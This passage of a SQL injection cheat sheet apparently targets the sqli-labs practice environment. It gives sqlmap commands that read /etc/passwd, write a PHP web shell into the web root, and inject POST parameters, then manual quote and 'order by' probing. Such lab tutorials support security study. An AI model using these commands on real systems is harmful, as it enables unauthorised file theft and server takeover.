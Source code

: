 ```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-read=/etc/passwd
```

#### Writing file

```
./sqlmap.py -u <url> --file-write=<file> --file-dest=<path>
```

```
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-write=shell.php --file-dest=/var/www/html/shell-php.php
```

#### POST

```bash
./sqlmap.py -u <POST-URL> --data="<POST-paramters> "
```

```bash
./sqlmap.py -u http://localhost/Less-11/ --data "uname=teste&passwd=&submit=Submit" -p uname
```

You can also use a file like with the post request:

```bash
./sqlmap.py -r post-request.txt -p uname
```

### Bare Hands

#### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example: 

```
http://192.168.1.104/Less-1/?id=5'
```

#### Fuzzing

Sorting columns to find maximum column

`http://192.168.1.104/Less-1/?id=-1 order by 1`

`http://192.168.1.104/Less-1/?id=-1 order by 2`

`http://192.168.1.104/Less-1/?id=-1 order by 3`

(until it stop returning errors)

---
